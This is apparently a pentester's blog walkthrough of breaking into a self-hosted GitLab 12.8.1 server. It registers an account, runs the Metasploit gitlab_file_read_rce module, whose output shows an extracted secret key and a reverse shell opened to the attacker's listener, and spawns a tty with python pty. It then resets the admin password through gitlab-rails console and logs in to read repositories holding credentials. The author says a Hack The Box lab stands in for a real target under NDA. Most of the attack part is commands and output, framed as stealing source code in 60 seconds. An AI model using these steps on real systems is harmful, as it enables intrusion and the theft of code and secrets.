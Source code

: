 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

``` msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```[*] Started reverse TCP handler on 10.10.14.**:2222 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/irUhEXC3
[*] Created project /oleksii/Dq5g60ow
[*] Created issue /oleksii/irUhEXC3/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102160557_default_10.10.10.*_gitlab.secrets_454778.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/irUhEXC3
[*] Deleted project /oleksii/irUhEXC3
[*] Attempting to delete project /oleksii/Dq5g60ow
[*] Deleted project /oleksii/Dq5g60ow
[*] Command shell session 3 opened (10.10.14.*:2222 -> 10.10.10.*:50878) at 2021-01-02 16:06:02 -0500

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..
python3 -c 'import pty; pty.spawn("/bin/sh")'

$ls -la
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..

```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```user = User.where(id: 1).first
```
Found Gitlab admin user:

```irb(main):008:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

```{
  "id": 1,
  "name": "Dexter McPherson",
  "username": "dexter",
  "state": "active",
  "avatar_url": "http://gitlab.site.iouploads/-/system/user/avatar/1/avatar.png",
  "web_url": "http://gitlab.site.io/dexter",
  "created_at": "2020-07-02T18:02:18.859Z",
  "bio": "",
  "location": "",
  "public_email": "",
  "skype": "",
  "linkedin": "",
  "twitter": "",
  "website_url": "",
  "organization": ""
}
```

Now you can change your password:

``` user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```

It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.

``` user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

----------

![login_admin](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login_admin.jpg)

----------


So now see how can steal project Source code in 60 seconds because I think If you repeat all commands from this note then spend no more than 60 seconds. 

 
